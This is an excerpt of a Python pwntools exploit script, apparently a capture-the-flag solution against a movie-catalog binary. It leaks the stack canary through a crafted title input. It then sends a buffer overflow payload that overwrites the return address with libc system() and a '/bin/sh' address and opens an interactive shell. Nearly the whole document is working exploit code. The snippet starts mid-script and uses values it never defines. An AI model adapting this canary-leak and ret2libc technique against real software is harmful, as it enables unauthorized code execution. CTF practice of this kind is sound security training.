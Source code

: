 ```python
r.sendlineafter(b'title of movie > ', b'AAAA' + p32(0xffffffec) + p32(canary_addr+1) + p32(chunk_addr+0x28))
r.sendlineafter(b'category of movie > ', b'3')
r.sendlineafter(b'size of movie > ', str(0x0).encode())

#get canary
r.sendlineafter(b'> ', b'1')
r.recvuntil(b'Titile : ')
canary = u32(b'\x00' + r.recvn(3))
print("canary")
print(hex(canary))

# get sh
sh = libc_base + 0x15bb2b
system = libc_base + 0x3adb0
pay = b'B' * 0x3FF
pay += p32(0x400)
pay += p32(chunk_addr)
pay += p32(canary)
pay += b'A' * 0xc
pay += p32(system)
pay += b'A' * 0x4
pay+=p32(sh)


r4.sendlineafter(b'size of movie > ', str(len(pay)+1).encode())
r4.sendline(pay)

r3.close()
r4.close()

pause()

r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'index of movie > ', b'4')
r.sendlineafter(b'channel > ', b'0-1-1111')

r.interactive()
```